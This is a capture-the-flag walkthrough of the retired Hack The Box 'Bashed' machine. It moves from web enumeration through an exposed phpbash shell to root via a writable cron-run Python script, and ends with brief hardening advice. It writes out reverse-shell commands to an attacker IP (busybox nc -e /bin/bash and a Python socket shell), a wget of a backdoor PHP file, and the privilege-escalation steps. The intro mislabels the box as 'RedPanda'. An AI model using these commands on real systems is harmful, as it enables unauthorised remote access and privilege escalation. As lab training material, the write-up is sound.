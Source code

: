 ```yaml
---
layout: post
date: 2023-05-16
title: "Bashed Walkthrough"
categories: [hackthebox]
tags: [hackthebox, linux, web, SUDO, Scheduled Job Abuse]
---
```


This is a walkthrough on how to complete the RedPanda box on Hackthebox.com. This box has been retired. The box is rated as **easy** difficulty. You can attempt the machine [here](https://app.hackthebox.com/machines/118) as well as view their write up on the box. 

Required Skills include: Web enumeration, Linux fundamentals.


I first started out with nmap scan as you must know what is open and what is closed. 

sudo nmap -Pn -n -v -sC -sV --open --min-rate=1000 -oA bashed BashedIP

```shell
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

added bashed.htb to hosts file so I am able to access the page online.

![](/assets/images/Bashed/mainpage.jpg)

This links to another interesting page with more information relating to the exploit. 

![](/assets/images/Bashed/mainpage2.jpg)

This shows an example of a php file that is on the server, however I do not know that at this point in time. 

![](/assets/images/Bashed/githubpage.jpg)


https://github.com/Arrexel/phpbash


ran feroxbuster

```shell

feroxbuster -u http://bashed.htb/ -k --wordlist=/usr/share/wordlists/dirb/big.txt

```


```shell
404      GET        -l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      161l      397w     7743c http://bashed.htb/
404      GET        9l       34w      296c http://bashed.htb/Documents%20and%20Settings
404      GET        9l       33w      284c http://bashed.htb/contact%20us
301      GET        9l       28w      306c http://bashed.htb/css => http://bashed.htb/css/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
404      GET        9l       33w      285c http://bashed.htb/donate%20cash
404      GET        9l       33w      288c http://bashed.htb/external%20files
301      GET        9l       28w      308c http://bashed.htb/fonts => http://bashed.htb/fonts/
404      GET        9l       33w      283c http://bashed.htb/home%20page
301      GET        9l       28w      309c http://bashed.htb/images => http://bashed.htb/images/
301      GET        9l       28w      305c http://bashed.htb/js => http://bashed.htb/js/
404      GET        9l       33w      284c http://bashed.htb/modern%20mom
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
404      GET        9l       33w      288c http://bashed.htb/press%20releases
403      GET       11l       32w      298c http://bashed.htb/server-status
404      GET        9l       33w      287c http://bashed.htb/style%20library
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
403      GET       11l       32w      302c http://bashed.htb/uploads/.htaccess
403      GET       11l       32w      302c http://bashed.htb/uploads/.htpasswd
404      GET        9l       34w      304c http://bashed.htb/uploads/Documents%20and%20Settings
404      GET        9l       33w      295c http://bashed.htb/uploads/Program%20Files
404      GET        9l       33w      292c http://bashed.htb/uploads/contact%20us
404      GET        9l       33w      293c http://bashed.htb/uploads/donate%20cash
404      GET        9l       33w      296c http://bashed.htb/uploads/external%20files
404      GET        9l       33w      291c http://bashed.htb/uploads/home%20page
404      GET        9l       33w      292c http://bashed.htb/uploads/modern%20mom
404      GET        9l       33w      292c http://bashed.htb/uploads/my%20project
404      GET        9l       34w      297c http://bashed.htb/uploads/neuf%20giga%20photo
404      GET        9l       33w      296c http://bashed.htb/uploads/press%20releases
404      GET        9l       33w      290c http://bashed.htb/uploads/site%20map
404      GET        9l       33w      295c http://bashed.htb/uploads/style%20library

```


going to this page provides us with a semi-shell which was shown above in the github repo. 

http://bashed.htb/dev/phpbash.php


![](/assets/images/Bashed/phpbash.jpg)


sudo -l

![](/assets/images/Bashed/phpbash2.jpg)

cd .. 

cd uploads/

wget http://10.10.14.7/simple-backdoor.php

http://bashed.htb/uploads/simple-backdoor.php

navigate to that page for further command execution to try and get a full shell.
	this did not work.

I saw that it was running busybox when I typed ls /bin

so I ran this command with my listener running 


```shell
busybox nc 10.10.14.7 4444 -e /bin/bash
```

```shell
nc -lvnp 4444
```


I now have a bad shell as user "www-data" so I  can upgrade with 


```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This enables me to have lateral movement.


```shell
sudo -u scriptmanager /bin/bash
```


I am now the user "scriptmanager".


I attempt to run sudo -l where it asks for a password of which I do not have.



I then travel to /home and see another user. arrexel which I can read his files and thus got the user flag.

![](/assets/images/Bashed/shell.jpg)



travelling to / shows me an interesting folder. /scripts which I travel to finding test.py and test.txt

![](/assets/images/Bashed/shell2.jpg)

seeing the files you can see test.py is owned by scriptmanager and test.txt is owned by root.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```


I read test.py which it creates the test.txt file and thus I can assume that the script is being automated as root. I can then change the file contents of test.py which I uploaded a bash rev shell into test.py

I got this reverse shell from https://revshells.com

```python
import os
import pty
import socket


s=socket.socket()
s.connect(("10.10.14.7",5555))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
```



This gave me a root shell.



![](/assets/images/Bashed/pwned.jpg)



You can secure the exploited vulnerability by first not having an interactive shell built into your webapp. Another step to take is to ensure that you do not have scripts running at elevated levels if unnecessary. To change this, you will need to change who is running the automated job. The permissions seemed to be fine on this machine.  





